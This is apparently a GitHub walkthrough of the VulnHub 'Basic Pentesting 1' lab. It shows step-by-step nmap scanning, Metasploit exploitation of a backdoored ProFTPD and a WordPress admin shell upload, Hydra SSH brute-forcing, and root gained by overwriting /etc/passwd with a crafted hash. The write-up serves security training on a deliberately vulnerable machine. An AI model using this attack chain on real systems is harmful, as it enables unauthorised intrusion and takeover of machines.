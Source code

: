 <h1 align="center">
  <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/">Basic_Pentesting1</a>
</h1>

## Port Scanning
```bash
$ nmap -A <target_ip>

Other Scanning Examples:
$ nmap -A -p- -T4 <target_ip>
$ nmap -sV -sC <target_ip>
```

## Open Ports
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/OpenPorts.png)


## Exploiting port 21 ProFTPD 1.3.3c 
```bash
$ msfconsole
$ search ProFTPD
$ use exploit/unix/ftp/proftpd_133c_backdoor
$ set rhosts <target_ip>
$ set rport 21
$ run/exploit
--------------Hoorah--We--are--in--------------------
-------------------EXPLOITED-------------------------
```

## User enumeration
We had found that the users are marlinspike and root from previous ftp exploit.

## Bruteforcing into port 22 (SSH) using hydra trying default credentials
```bash
$ hydra -l marlinspike -P <wordlist> ssh://target_ip -V

Password Found for user(marlinspike):
[22][ssh] host: 192.168.1.70   login: marlinspike   password: marlinspike
```

## Privilege Escalation
> find / -type f -perm -u=s 2>/dev/null

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc1.png)


After researching, we find that the user(marlinspike) can use all the commands.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc0.png)

Now, let's try abusing binary `sudo su` and enter password of the user `marlinspike` and boy we are in :V

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc-Success.png)


## Directory Enumeration for port 80 (http-server)

> gobuster dir -u <target_url> -w <path-to-wordlist> 


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Directory-Enum.png)

We found /secret directory. Let's check in the browser.
We can see a wordpress blog running on the the server.


We can see that the webpage is not properly loading. 
So let's add the vtcsec into our /etc/hosts file and check how the webpage looks afterward.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hosts.png)
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Wordpress.png)


Now, let's go to wp-admin as it is the admin panel for wordpress sites and
try default login credentials i.e admin/admin we're in.
If the default credentials wouldn't have worked we probably would have needed to
bruteforce into the admin panel via burpsuite intruder or hydra or by using
any bruteforcing tools you prefer.

Now, let's try to gain access with wordpress exploit via metasploit.
```bash
$ msfconsole
$ search wp_admin
$ use exploit/unix/webapp/wp_admin_shell_upload

set every options that is needed for the exploit.
```

We can see that we got ourselves a meterpreter session.
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/reverse_shell.png)



## Privilege Escalation
To check for any potential misconfigurations that could lead to privilege escalation, a good script to use is the unix-privesc-check script from [pentestmonkey](https://github.com/pentestmonkey/unix-privesc-check)


This can be uploaded from the meterpreter session by running the following command:
> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check


After we upload the file to the server we then can execute the file:
```bash
$ shell
$ cd /tmp
$ chmod +x unix-privesc-check
```


The author of unix-privesc-check recommends to grep the output for WARNING, which will show any potential misconfigurations. This can be run as one single command:
> ./unix-privesc-check standard | grep WARNING


We can see `WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd` after executing the unix-privesc-check.

This means that we can write into the /etc/passwd file. So, let's download the file into our host machine by getting back into our meterpreter shell and executing:
> download /etc/passwd <path-where-to-save>


Now, from a local terminal, we can use openssl to generate a new hashed password:
> openssl passwd -1 lol

We get our hashed password i.e `$1$X5FkPmLQ$h0yILWHDiUeWUeezpmWU20`
Now, open the passwd file we downloaded before and replace x after root like:
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hashed.png)


Now, all we need to do is upload the modified passwd file from our host to target server
	using:
> upload <path-where-you-saved> /etc/passwd

To make the shell interactive:
> python -c 'import pty; pty.spawn("/bin/bash")'

Finally, we can switch to root's account. 
```bash
$ su root
Password: lol
```
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/final-root-access.png)


<a href="https://github.com/ninchy0">ninchy0</a>